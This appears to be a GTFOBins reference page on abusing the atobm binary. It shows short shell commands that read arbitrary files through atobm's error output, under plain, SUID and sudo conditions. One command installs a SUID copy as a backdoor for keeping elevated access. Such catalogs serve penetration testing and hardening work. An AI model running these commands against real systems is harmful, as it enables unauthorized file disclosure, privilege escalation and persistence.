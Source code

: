 # GTFOBin: atobm

Outputs the first line of the file to standard error without the `-` and `#` characters, this can be customized with the `-c` option, by default is `-c -#`.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which atobm) .

LFILE=file_to_read
./atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo atobm $LFILE 2>&1 | awk -F "'" '{printf "%s", $2}'
```